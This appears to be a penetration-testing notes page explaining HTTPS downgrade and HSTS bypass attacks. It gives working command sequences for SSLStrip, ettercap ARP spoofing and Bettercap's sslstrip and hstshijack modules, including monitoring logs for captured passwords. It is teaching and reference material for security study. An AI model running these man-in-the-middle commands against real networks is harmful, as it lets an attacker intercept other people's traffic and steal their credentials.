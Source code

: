# HTTPS Downgrade / HSTS Bypass

{% embed url="https://itigic.com/how-to-decrypt-https-traffic-with-bettercap-on-linux" %}

## HTTPS

HTTPS or HTTP over SSL is relied upon as a critical network technology for many organizations, used by web browsers and many other applications to protect the confidentiality, integrity, and authenticity of data. Certificate validation for HTTPS has significantly improved in web browsers in the past few years, where earlier browsers would make it too simple for an uninformed user to accept a certificate warning without understanding the impact of doing so.

{% hint style="info" %}
#### Modern web browsers such as Firefox demonstrate a significant warning when a certificate is invalid for any reason, as shown on this slide. To bypass this warning and continue with the invalid certificate, the user must click through five options before continuing.
{% endhint %}

## HTTPS Downgrade Attack

### SSLStrip

Instead of using an invalid certificate and tricking the user into terminating the SSL session with the attacker, Sslstrip avoids any certificate warnings by rewriting all HTTP traffic to remove references to HTTPS. Sslstrip proxies all traffic intended to use SSL to the legitimate SSL server, but only responds with HTTP traffic to the victim, allowing the attacker to access all content while logging activity such as POST statements. Sslstrip also uses some clever tricks to assuage user concerns about seeing their traffic sent over HTTP instead of HTTPS.

![](<../../.gitbook/assets/image (301).png>)

Sslstrip takes advantage of a common flaw in HTTPS websites: Many users start with a plain HTTP request, which is later redirected to HTTPS by the server. Consider, for example, logging in to a Gmail account. Very few users will enter "https://www.gmail.com" in the web browser, instead relying on Gmail to redirect HTTP traffic to HTTPS. However, since the user is relying on a weak protocol (HTTP) to redirect them, the security of a stronger protocol (HTTPS) is threatened.

#### Sslstrip does not allow an attacker to eavesdrop on activity sent exclusively via an HTTPS server without being redirected from an HTTP site.

#### turn on IP forwarding

```
echo 1 >/proc/sys/net/ipv4/ip_forward
```

#### redirect all HTTP (tcp 80) traffic to the sslstrip process listening on port 8080.

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

#### start sslstrip listening on port 8080

```
sslstrip -l 8080
```

#### become MitM through ARP spoofing with ettercap

```
ettercap -TqM arp:remote /10.10.10.1254// /10.10.10.1-254//
```

#### monitor `sslstrip.log` or watch ettercap for passwords

```
tail -f sslstrip.log
```

### Ettercap SSLStrip Plugin

```
ettercap -TqM arp:remote -P sslstrip /172.16.0.1// /172.16.0.11//
```

### Bettercap SSLStrip&#x20;

```
http.proxy on/off
# enable SSL strip attack
set http.proxy.sslstrip true/false

https.proxy on/off
# enable SSL strip attack
set https.proxy.sslstrip true/false
```

## HSTS

To address the prevalent exposure to Sslstrip attacks, the IETF introduced RFC 6797 (https://tools.ietf.org/html/rfc6797), which introduced the HTTP Strict-Transport-Security (HSTS) header option for websites. When the Strict-Transport-Security header is set on any response from a website, the browser records that the server expects all activity with the server to be transmitted over HTTPS.

The HSTS option partially mitigates Sslstrip attacks. If the victim previously visited a website that set the HSTS header and an attacker attempts to rewrite links and content to remove the https:// prefix, the browser refuses to visit the site over HTTP. In addition, sites marked as using HSTS do not show users certificate warnings with an option to continue the transaction; instead, the browser indicates an error and refuses to communicate with the HTTPS site until the certificate issue has been resolved (also eliminating the attacker's option to mount SSL MitM attacks against an HSTS site).

## HSTS Bypass

browsers match the hostname of the server requested to the list of sites that use HSTS. If the hostname of the requested URL matches a hostname known to use HSTS, the browser refuses to load the content if the URL is rewritten by Sslstrip as an HTTP link (or display a certificate error with a continue option if there is a certificate error).

![](<../../.gitbook/assets/image (302).png>)

when an initial page is loaded over HTTP, an attacker can rewrite links to strip the HTTPS links, and it can change the requested hostnames as well. In the example shown on this page, the victim starts the browser by visiting http://www.kickstarter.com. The Kickstarter website returns content and links over HTTP, which the attacker modifies in two ways: First, HTTPS links are rewritten as HTTP links, and, second, the hostname in HTTPS links is changed slightly, such as adding another "w" in "www" ("www" to "wwww") or any other modification that changes the hostname.

If the victim clicks a modified link (https://www.facebook.com from Kickstarter is modified by Sslstrip2 to be http://wwww.facebook.com), the request is automatically forwarded to the upstream site as https://www.facebook.com, but the content is delivered to the victim downstream over HTTP (again, rewriting links and hostnames to avoid HTTPS and HSTS policies). The victim's browser never raises an error about an insecure site because the HSTS policies are never matched due to modified hostnames observed by the victim.

{% hint style="info" %}
A new twist on this attack was released by Jose Selva. He demonstrated spoofing NTP traffic to force the HSTS record to be expired by the victim browser.
{% endhint %}

### Bettercap SSLStrip

#### (for older versions)

```
bettercap --proxy -T 1172.16.0.186 -P POST
```

#### (for newer versions)

```
bettercap
» hstshijack/hstshijack
```

